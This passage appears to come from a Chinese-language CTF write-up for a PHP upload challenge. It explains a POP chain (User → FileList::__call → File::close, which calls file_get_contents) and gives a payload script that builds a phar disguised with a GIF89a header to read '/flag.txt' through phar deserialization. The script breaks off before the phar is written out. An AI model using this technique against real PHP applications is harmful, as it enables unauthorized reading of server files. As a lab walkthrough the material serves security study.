 ```php
            return false;
        }
    }

    public function name() {
        return basename($this->filename);
    }

    public function size() {
        $size = filesize($this->filename);
        $units = array(' B', ' KB', ' MB', ' GB', ' TB');
        for ($i = 0; $size >= 1024 && $i < 4; $i++) $size /= 1024;
        return round($size, 2).$units[$i];
    }

    public function detele() {
        unlink($this->filename);
    }

    public function close() {
        return file_get_contents($this->filename);
    }
}
?>

```

看到file类的close有file_get_contents函数可以读文件，在FileList类里会创建flie类，并且会打印出来，所以我们要先办法在FileList里调用file的close方法，看到filelist的call方法在调用filelist没有的方法时会去调用file的方法，在use类里会调用db变量的close方法，我们只要让db为filelist就好了，但是本体没有反序列化的点，有上传我们就要用phar反序列化

payload

```php
<?php
class User {
    public $db;
}
class File {
    public $filename;
}
class FileList {
    private $files;
    private $results;
    private $funcs;
    public function __construct() {
        $this->files = array();
        $this->results = array();
        $this->funcs = array();

        $file = new File();
        $file->filename = '/flag.txt';	# 这里的flag.txt是多次猜测出来的
        array_push($this->files, $file);
    }
}

$user = new User();
$filelist = new FileList();
$user->db = $filelist;

$phar = new Phar("phr.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("GIF89a"."<\?php __HALT_COMPILER(); ?>");  //设置stub，增加gif文件头
$phar->setMetadata($user); //将自定义的meta-data存入manifest
```